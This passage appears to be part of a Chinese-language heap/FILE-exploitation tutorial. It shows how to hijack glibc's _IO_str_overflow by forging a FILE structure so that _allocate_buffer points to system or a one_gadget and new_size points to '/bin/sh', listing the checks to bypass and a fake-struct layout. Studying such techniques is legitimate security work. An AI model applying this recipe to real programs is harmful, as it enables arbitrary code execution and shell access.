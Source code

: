 ```c

      fp->_IO_write_base = new_buf;
      fp->_IO_write_end = fp->_IO_buf_end;
    }
    }

  if (!flush_only)
    *fp->_IO_write_ptr++ = (unsigned char) c;
  if (fp->_IO_write_ptr > fp->_IO_read_end)
    fp->_IO_read_end = fp->_IO_write_ptr;
  return c;
}
libc_hidden_def (_IO_str_overflow)
```

利用下面语句可以劫持程序流程：

```c
new_buf= (char *) (*((_IO_strfile *) fp)->_s._allocate_buffer) (new_size);
```

思路是绕过前面的检查，并将`fp->_s._allocate_buffer`修改为`system`,将`new_size`修改为`"/bin/sh"`的地址（也可直接改为one_gadget）

具体构造：

1. `fp->_flags & _IO_NO_WRITES`为假
2. `(pos = fp->_IO_write_ptr - fp->_IO_write_base) >= ((fp->_IO_buf_end - fp->_IO_buf_base) + flush_only(1))`
3. `fp->_flags & _IO_USER_BUF(0x01)`为假
4. `2*(fp->_IO_buf_end - fp->_IO_buf_base) + 100 `不能为负数
5. `new_size = 2 * (fp->_IO_buf_end - fp->_IO_buf_base) + 100`; 应当指向/bin/sh字符串对应的地址
6. `fp+0xe0`（`_allocate_buffer`）指向system地址

当然也要绕过 `_IO_flush_all_lockp`的一些条件

1. `fp->_mode<=0`
2. `fp->_IO_write_ptr > fp->_IO_write_base`

```c
._chain => chunk_addr
chunk_addr
{
  file = {
    _flags = 0x0,
    _IO_read_ptr = 0x0,
    _IO_read_end = 0x0,
    _IO_read_base = 0x0,
    _IO_write_base = 0x0,
    _IO_write_ptr = 0x1,
    _IO_write_end = 0x0,
    _IO_buf_base = 0x0,
    _IO_buf_end = (bin_sh_addr - 100) // 2,
      ...
      _mode = 0x0, //一般不用特意设置
      _unused2 = '\000' <repeats 19 times>
  },
  vtable = _IO_str_jumps //chunk_addr + 0xd8 ~ +0xe0(glibc2.24之前可以)
}
+0xe0 ~ +0xe8 : system_addr / one_gadget //fp->_s._allocate_buffer
```

